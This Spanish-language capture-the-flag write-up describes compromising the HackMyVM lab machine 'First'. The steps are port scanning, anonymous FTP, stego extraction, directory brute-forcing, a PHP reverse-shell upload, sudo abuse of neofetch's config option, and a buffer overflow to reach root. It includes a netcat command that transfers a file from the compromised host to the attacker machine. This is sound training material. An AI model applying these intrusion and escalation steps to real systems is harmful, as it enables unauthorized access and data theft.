


```php 
##########################################################################################################
#
# CTF a la Máquina First
#
# DATE: 28/Agosto/2022
#
#
#########################################################################################################
```
# Footprinting
```bash 
IP_atacante -> $ifconfig -> 192.168.0.5
IP_objetivo -> $netdiscover -r 192.168.0.0/24 -> 192.168.0.68
```
# Escaneo y Enumeración

* Veo que puertos tiene abiertos,

```php 
nmap -sVC -T4 -n -p- 192.168.0.68
```
* Obtengo los siguientes puertos abiertos, 21 FTP, 22 SSH y 80 HTTP

```php
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 09 10:16 fifth
| drwxr-xr-x    2 0        0            4096 Aug 10 12:44 first
| drwxr-xr-x    2 0        0            4096 Aug 09 10:16 fourth
| drwxr-xr-x    2 0        0            4096 Aug 09 10:16 seccond
|_drwxr-xr-x    2 0        0            4096 Aug 09 10:16 third
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b8:57:5b:81:5a:78:1f:d6:ff:60:39:bb:32:a8:5d:cd (RSA)
|   256 65:8d:43:ec:63:77:d0:39:c0:1b:3e:40:d9:53:1e:ed (ECDSA)
|_  256 0f:02:ac:df:e1:31:3c:b2:59:f6:b7:59:09:f1:ff:f8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
### FTP

* Entro en el ftp anónimo 

```php
150 Here comes the directory listing.
drwxr-xr-x    8 0        118          4096 Aug 10 12:44 .
drwxr-xr-x    8 0        118          4096 Aug 10 12:44 ..
drwxr-xr-x    2 0        0            4096 Aug 09 10:16 .real
drwxr-xr-x    2 0        0            4096 Aug 09 10:16 fifth
drwxr-xr-x    2 0        0            4096 Aug 10 12:44 first
drwxr-xr-x    2 0        0            4096 Aug 09 10:16 fourth
drwxr-xr-x    2 0        0            4096 Aug 09 10:16 seccond
drwxr-xr-x    2 0        0            4096 Aug 09 10:16 third
226 Directory send OK.
```

* y descargo de entre todos los directorios el único fichero que encuentro, una imagen *first_Logo.jpg* a la que hago stego y encuentro,

```php 
┌─[user@parrot]─[~/HackMyVM-/mv-first]
└──╼ $stegseek first_Logo.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "firstgurl1"       
[i] Original filename: "secret.txt".
[i] Extracting to "first_Logo.jpg.out".

┌─[user@parrot]─[~/HackMyVM-/mv-first]
└──╼ $cat first_Logo.jpg.out 
SGkgSSBoYWQgdG8gY2hhbmdlIHRoZSBuYW1lIG9mIHRoZSB0b2RvIGxpc3QgYmVjb3VzZSBkaXJlY3RvcnkgYnVzdGluZyBpcyB0b28gZWFzeSB0aGVlc2UgZGF5cyBhbHNvIEkgZW5jb2RlZCB0aGlzIGluIGJlc2E2NCBiZWNvdXNlIGl0IGlzIGNvb2wgYnR3IHlvdXIgdG9kbyBsaXN0IGlzIDogMmYgNzQgMzAgNjQgMzAgNWYgNmMgMzEgNzMgNzQgNWYgNjYgMzAgNzIgNWYgNjYgMzEgNzIgMzUgNzQgZG8gaXQgcXVpY2sgd2UgYXJlIHZ1bG5hcmFibGUgZG8gdGhlIGZpcnN0IGZpcnN0IA==
```

* Es base64 que decodifico y me da la siguiente información

```text
Hi I had to change the name of the todo list becouse directory busting is too easy theese days also I encoded this in besa64 becouse it is cool btw your todo list is : 2f 74 30 64 30 5f 6c 31 73 74 5f 66 30 72 5f 66 31 72 35 74 do it quick we are vulnarable do the first first 
```
* La cadena en HEX se decodifica en 

```text
/t0d0_l1st_f0r_f1r5t
```

### Web

* Cargo en el navegador la web y aparece el siguiente mensaje

```text
I Finnaly got apache working, I am tired so I will do the todo list tomorrow. -first 
```
* Como he averiguado que puedo tener un directorio, lo pongo en el navegador y obtengo la siguiente información


```html 
todo for first:
	First: patch the buffer overflow in our secret file ;)
	2: remove the temporary upload php file
	3: put the server on the World Wide Web
	4: profit
<script>alert("DO THIS QUICK")</script>
```
* Busco información en esos directorios

```php 
gobuster dir -u http://192.168.0.68/t0d0_l1st_f0r_f1r5t/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x php
```

* Encuento

```php
===============================================================
2022/08/28 18:15:02 Starting gobuster in directory enumeration mode
===============================================================
/photos               (Status: 301) [Size: 333] [--> http://192.168.0.68/t0d0_l1st_f0r_f1r5t/photos/]
/uploads              (Status: 301) [Size: 334] [--> http://192.168.0.68/t0d0_l1st_f0r_f1r5t/uploads/]
/upload.php           (Status: 200) [Size: 348]  
```

* Se pueden listar




# Acceso

* Intento subir una *shell* con el *upload*, por ejemplo la de **pentest-monkey** de https://www.revshells.com/

* Se pueden listar los directorios, así que directamente me voy a */uploads* y ejecuto la *reverse shell* y accedo

```php 
www-data@first:/$ whoami
whoami
www-data
```

* Existe un usuario *first*, así que toca pivotar

```php
www-data@first:/$ ls -l /home
ls -l /home
total 4
drwxr-xr-x 5 first first 4096 Aug 10 06:30 first
```
### Pivotar a first

* Tratamiento de pseudo-consola

```php 
python3 -c 'import pty;pty.spawn("/bin/bash")'

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/tmp

export TERM=xterm-256color

alias ll='clear; ls -lsaht --color=auto'

Ctrl-Z [Background Process]
stty raw -echo; fg; reset

stty columns 200 rows 200
```

* Ejecuto *sudo -l* para comprobar que puedo hacer y veo que puedo ejecutar como *first* un binario **neofetch**

```php 
User www-data may run the following commands on first:
    (first : first) NOPASSWD: /bin/neofetch
```
* Según la ayuda de ese programa,

```text
Neofetch is a CLI system information tool written in BASH. Neofetch
displays information about your system next to an image, your OS logo,
or any ASCII file of your choice.
```
* Intentaré explotar por aquí, 

```php
OTHER:
    --config /path/to/config    Specify a path to a custom config file
 ```
 
 * Pondré en el fichero de configuración un script que lance una shell simplemente y lo coloco en un directorio donde tenga permisos de escritura, por ejemplo en */tmp* 

```php
#!/bin/bash
bash
```
* Lanzo el programa con el fichero de configuración envenenado

```php 
sudo -u first /bin/neofetch --config /tmp/consola
```

* Obtengo acceso

```php 
first@first:/tmp$ whoami
first
```

* Capturo bandera de usuario


# Elevación de privilegios

* Ejecuto *sudo -l*

```php
User first may run the following commands on first:
    (ALL) NOPASSWD: /bin/secret
```
* Hay un binario que lo puedo ejecutar como *ALL* pero pide contraseña

```php 
first@first:~$ secret 
pass: hola
```
* Me paso el binario a mi máquina para trastearlo con GHidra

1. En mi máquina atacante pongo un netcat para escuchar

```php
nc -lp 8888 >secret
```

2. En la máquina vulnerada transfiero el binario

```php
nc -w 3 192.168.0.5 8888 <secret
```

* Lanzo *ghidra* y busco una cadena **pass**


* Analizo el código

 

* Y observo, como además decía la pista, que es vulnerable a buffer overflow de mas de 10 caracteres, así que lanzo el binario con una contraseña de mas de 10 caracteres

```php
first@first:/bin$ sudo /bin/secret 
pass: 12345678901
correct, input command:/bin/bash
root@first:/usr/bin#
```

* Capturo bandera de *root*
